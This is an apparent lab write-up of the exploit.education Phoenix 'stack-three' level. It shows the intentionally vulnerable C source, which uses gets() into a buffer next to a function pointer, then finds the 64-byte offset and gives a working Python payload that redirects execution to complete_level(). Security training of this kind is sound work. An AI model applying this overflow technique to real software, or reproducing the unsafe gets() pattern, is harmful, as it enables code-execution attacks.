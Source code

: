 # Code Analysis:

## Code Execution:

```bash
./stack_three

test
```

Nothing happens.

## Source Code:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

1. The program declares a function pointer named `fp` set to 0.
2. Initializes a 64-byte `buffer` with the user's input value.
3. If `fp` != 0, execute `fp` pointing to where it points.

There's also a function `complete_level()` (the one we are interested in) that prints if we have succeeded or not.

# Exploitation:

## How?

To exploit this binary, you need to reach the `complete_level()` function. To do this, you must:
- Find the offset to reach `fp`.
- Insert the address of the `complete_level()` function into `fp`.

## Demonstration:

### Finding the Offset

```bash
python3 -c 'print("A" * 65)' | ./stack-three 

Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x41
Segmentation fault
```

The offset is therefore 64.

### Inserting the Address of `complete_level()`

```bash
python3 -c 'print("A" * 64 + "\x9d\x06\x40\x00\x00\x00\x00\x00")' | ./stack-three

Welcome to phoenix/stack-three, brought to you by https://exploit.education

Traceback (most recent call last):
  File "<string>", line 1, in <module>
  
UnicodeEncodeError: 'ascii' codec can't encode character '\x9d' in position 64: ordinal not in range(128)
function pointer remains unmodified :~( better luck next time!
```

On the phoenix virtual machine, Python was incorrectly encoding non-ASCII character strings, which means I had to use the sys module to input the binary address of `complete_level()`.

### Payload:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*64 + b"\x9d\x06\x40\x00\x00\x00\x00\x00")' | ./stack-three

Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d

Congratulations, you've finished phoenix/stack-three :-) Well done!
```
